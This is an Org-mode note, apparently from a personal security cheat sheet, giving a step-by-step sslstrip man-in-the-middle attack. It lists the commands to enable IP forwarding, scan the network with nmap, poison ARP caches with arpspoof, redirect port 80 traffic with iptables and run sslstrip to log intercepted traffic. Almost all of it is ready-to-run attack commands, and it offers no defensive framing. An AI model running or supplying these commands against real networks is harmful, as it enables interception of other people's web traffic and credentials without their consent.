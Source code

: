 #+TAGS: sec_o web


* sslstrip							  :sec_o:web:
* Description
sslstrip makes it possible to intercept https traffic and view content
* Usage
- Launching an sslstip attack 
1) Launch an ARP spoof. i) IP forwarding
echo 1 > /proc/sys/net/ipv4/ip\_forward ii) Identify the gateway and
subnet mask using netstat -nr iii) Use nmap to identify a target on the
network nmap -Rsn x.x.x.x/x iv) Start ARP cache poisoning using arpspoof
-i eth0 -t x.x.x.x -r [default\_gateway] . This will show traffic leave
the window open

2) Once the ARP cache poisoning is set up, open a new terminal to set up
   port redirects using iptables. This enables traffic to be redirected
   to sslstrip listner port.

#+BEGIN_SRC sh
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
#+END_SRC

3) Launch sslstrip attack.
#+BEGIN_SRC sh
sslstrip -l 8080 
#+END_SRC
To view the results of this attack open another terminal tail -n 50 -f sslstip.log
* Lecture
* Tutorial
* Books
* Links
